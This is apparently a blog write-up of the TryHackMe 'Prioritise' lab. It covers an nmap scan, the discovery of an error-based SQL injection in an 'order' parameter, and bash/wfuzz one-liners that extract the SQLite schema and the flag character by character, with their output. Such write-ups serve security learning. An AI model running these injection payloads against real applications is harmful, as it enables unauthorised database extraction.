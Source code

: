 ```yaml
---
title: Prioritse TryHackMe Writeup
tags: [writeup, tryhackme, sqli, wfuzz, orderby]
style: border
color: success
description: ""
---
```


![logo](../assets/img/prioritise-tryhackme-writeup/1.jpg)

## Scanning
We scan the open ports with the **nmap** tool with scripts and software versions.

```
> nmap -sVC -p- --min-rate 5000 prioritise.thm -Pn -n -oN nmap-prioritise.thm
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:15 CEST
WARNING: Service 10.10.247.170:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for prioritise.thm (10.10.247.170)
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 51fe13747bbc526a883d21d1b3bf13ad (RSA)
|   256 73fef7fdedf492bde2997188f855b28f (ECDSA)
|_  256 f848693d7f199f03166337369f84a87a (ED25519)
80/tcp open  rtsp
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5082
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <meta
|     name="viewport"
|     content="width=device-width, initial-scale=1, shrink-to-fit=no"
|     <link
|     rel="stylesheet"
|     href="../static/css/bootstrap.min.css"
|     crossorigin="anonymous"
|     <link
|     rel="stylesheet"
|     href="../static/css/font-awesome.min.css"
|     crossorigin="anonymous"
|     <link
|     rel="stylesheet"
|     href="../static/css/bootstrap-datepicker.min.css"
|     crossorigin="anonymous"
|     <title>Prioritise</title>
|     </head>
|     <body>
|     <!-- Navigation -->
|     <nav class="navbar navbar-expand-md navbar-dark bg-dark">
|     <div class="container">
|     class="navbar-brand" href="/"><span class="">Prioritise</span></a>
|     <button
|     class="na
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
|_http-title: Prioritise
```

## Enumeration
We access the website, no credentials are required and we can create and order items.

![](../assets/img/prioritise-tryhackme-writeup/2.png)

Here the filter is shown, there are not many objects on the website, so the *SQL Injection* exploit has to be around here.

![](../assets/img/prioritise-tryhackme-writeup/3.png)

After several tests (which were not few), we found a possible exploitation based on error and from the parameter "*order*" (*Think of this 'order', as an "order by <item>"*).

![](../assets/img/prioritise-tryhackme-writeup/4.png)

I tried increasing the *id* (*e.g. 4*), but when I set *5*, the server returned an error. So here I could realize that if it existed, the server did not return a 500 error.

![](../assets/img/prioritise-tryhackme-writeup/5.png)

Once we already had the possible exploitation path, the next step was to think of a way to know the backend, since tools like **SQLMap** didn't work (or at least I couldn't make it work).
So I thought, it would still have to return a *500 error* if it didn't exist and it didn't in the case of the next payload, in which I was able to find out that it was a *SQLite*:

![](../assets/img/prioritise-tryhackme-writeup/6.png)

## Exploitation
So I searched for tutorials and information about possible *SQL injection* attacks based on "*order by*", I found the following from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#boolean---extract-info-order-by)

Once I had the right payload, I set up a one liner with bash and the **wfuzz** tool, I generated a dictionary with letters (upper and lower case) and numbers, I also set up a loop to iterate the positions and finally I filtered those answers with code 404 or 500, so I assumed that all 200 and in the right order would be the correct ones... And so it was!

```bash
> for i in {1..40}; do wfuzz -c --hc 404,500 -w alphanums.txt "http://prioritise.thm/?order=(CASE+WHEN+(SELECT+hex(substr(sql,$i,1))+FROM+sqlite_master+WHERE+type%3d'table'+and+tbl_name+NOT+like+'sqlite_%25'+limit+1+offset+0)+%3d+hex('FUZZ')+THEN+id+ELSE+load_extension(0)+END)" 2>/dev/null | grep -i 200 && echo ""; done
000000029:   200        187 L    273 W      5082 Ch     "C"                        
000000044:   200        187 L    273 W      5082 Ch     "R"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000027:   200        187 L    273 W      5082 Ch     "A"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000027:   200        187 L    273 W      5082 Ch     "A"                        
000000028:   200        187 L    273 W      5082 Ch     "B"                        
000000038:   200        187 L    273 W      5082 Ch     "L"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000020:   200        187 L    273 W      5082 Ch     "t"                        
000000015:   200        187 L    273 W      5082 Ch     "o"                        
000000004:   200        187 L    273 W      5082 Ch     "d"                        
000000015:   200        187 L    273 W      5082 Ch     "o"                        
000000019:   200        187 L    273 W      5082 Ch     "s"                        
000000009:   200        187 L    273 W      5082 Ch     "i"                        
000000004:   200        187 L    273 W      5082 Ch     "d"                        
000000035:   200        187 L    273 W      5082 Ch     "I"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000033:   200        187 L    273 W      5082 Ch     "G"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000044:   200        187 L    273 W      5082 Ch     "R"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000041:   200        187 L    273 W      5082 Ch     "O"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000047:   200        187 L    273 W      5082 Ch     "U"                        
000000038:   200        187 L    273 W      5082 Ch     "L"
```
In the previous example, I increased the number of positions, as I was getting all the rows on the same line, so I had to be patient to get the tables and rows numbered correctly.

Finally, I assembled the last one liner to get the flag and complete the challenge:

#### Final - Obtaining the flag
```bash
> for i in {1..40}; do wfuzz -c --hc 404,500 -w alphanums.txt "http://prioritise.thm/?order=(CASE%20WHEN%20(SELECT%20hex(substr(flag,$i,1))%20FROM%20flag)%20=%20hex('FUZZ')%20THEN%20id%20ELSE%20load_extension(0)%20END)" 2>/dev/null | grep -i 200 && echo ""; done
000000006:   200        187 L    273 W      5082 Ch     "f"                        
000000012:   200        187 L    273 W      5082 Ch     "l"                        
000000001:   200        187 L    273 W      5082 Ch     "a"                        
000000007:   200        187 L    273 W      5082 Ch     "g"                        
000000059:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000061:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000056:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000062:   200        187 L    273 W      5082 Ch     "*"                        
000000057:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000056:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000060:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000059:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000061:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"
```

Mission completed!!!

![](../assets/img/prioritise-tryhackme-writeup/7.png)